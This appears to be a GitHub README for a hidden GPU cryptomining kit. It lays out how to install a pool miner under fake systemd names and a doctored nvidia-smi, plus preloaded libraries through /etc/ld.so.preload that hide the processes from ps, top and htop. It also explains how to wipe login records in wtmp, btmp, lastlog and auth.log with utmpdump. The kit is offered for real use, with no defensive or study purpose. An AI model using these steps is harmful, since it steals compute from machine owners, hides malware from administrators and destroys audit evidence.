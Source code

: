 # AWESOME WORK !!!
## Structure
* exec: executed file.
    * nvidia-smi: excludes `systemd-diagnosis` in nvidia-smi panel.
    * systemd-firewall: is an adaptive system resource allocator determines which GPU the slave miners work on.
    * systemd-update: is the same to the `systemd-firewall` but more merciful that only works at midnight.
    * systemd-diagnosis: is the pool slave miner.
    * libGNU.co hides `systemd-diagnosis` for ps, top ,and htop.
    * libnvidia-glibc.so hides `nl-toolkit` for ps, top ,and htop.
    * libnvidia-openai.so hides `systemd-firewall` for ps, top ,and htop.

* source: corresponding source code of the executed file in `./exec`.

## Installation
run the `Makefile` by `sudo make`. If you want to be blamed, run it without `sudo`. 

### nvidia-smi
1. please make sure the variable `skip` in `source/nvidia-smi.py` is the same to the **slave miner**'s file name.
1. rename original `nvidia-smi` by `nl-toolkit` in `/usr/bin`.
1. move the *degraded* `nvidia-smi` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx nvidia-smi`

### systemd-firewall
1. move `systemd-firewall` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx systemd-firewall`

### systemd-update
1. same to the `systemd-firewall`.

### libGNU.co, libnvidia-glibc.co, and libnvidia-openai.co
1. move `libGNU.co`, `libnvidia-glibc.co`, and `libnvidia-openai.co` to `/usr/lib`
1. move `ld.so.preload` to `/etc/`

## Usage
### Slash the miner
1. `sudo nohup systemd-firewall 2>&1 > /dev/null &`
1. check the mining status by `nl-toolkit`

### Check degraded files
1. `nvidia-smi`
1. `ps aux | grep f2pool`
1. `top` or `htop`

### Clean login log
1. revise following files by 
```bash
utmpdump [logfile] > tmp_output.txt
utmpdump -r tmp_output.txt > [logfile]
```

* `last`: `/var/log/wtmp`
* `lastb`: `/var/log/btmp`
* `lastlog`: `/var/log/lastlog`

1. revise `/var/log/auth.log`


